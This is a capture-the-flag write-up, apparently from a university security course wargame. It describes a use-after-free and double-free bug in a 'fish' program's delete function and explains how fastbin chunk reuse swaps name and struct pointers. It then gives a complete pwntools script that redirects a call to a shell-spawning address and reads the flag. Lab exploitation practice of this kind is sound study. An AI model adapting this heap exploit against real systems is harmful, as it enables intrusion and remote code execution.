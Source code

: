 _List of Vulnerabilities:_
1. The delete function doesn't remove the entry in the array after deleting which leads to a use after free vulnerability and also double free vulnerability

_Steps To Exploit:_
1. Create the first fish, free it, then create a second one, since fastbin allocate new chunksfrom the free chunks like a stack, the first name address will become the second fish address and the first fish address will become the second name address, basically swapped
2. By exploit the use after free, we can write to the second fish' name and call view on the first fish which will be excuting the address we put in the offset to originally puts GOT in the second fish's name
3. Put that address with one found in the binary which will execute a shell for us

_Script/Command Used:_
```python
#!/usr/bin/python

from pwn import *

c = remote("wargames.6447.sec.edu.au", 9002)

call = 0x080486c0   # An address which will call /bin/sh for us

c.recvuntil('>')
c.sendline("1")
c.recvuntil('>')
c.sendline("1")
c.recvuntil('>')
c.sendline("1")
c.recvuntil('>')
c.sendline("1")
c.recvuntil('>')
c.sendline("aaaa")

c.recvuntil('>')
c.sendline("4")
c.recvuntil('>')
c.sendline("1")

c.recvuntil('>')
c.sendline("1")
c.recvuntil('>')
c.sendline("2")
c.recvuntil('>')
c.sendline("1")
c.recvuntil('>')
c.sendline("1")
c.recvuntil('>')

payload = "a"*38
payload += p32(call)

log.info("Sending payload...")
c.sendline(payload)

c.recvuntil('>')
c.sendline("3")
c.recvuntil('>')
c.sendline("1")

c.sendline("cat /flag")

flag = c.recvline()
log.success("Flag found: %s" % (flag))

```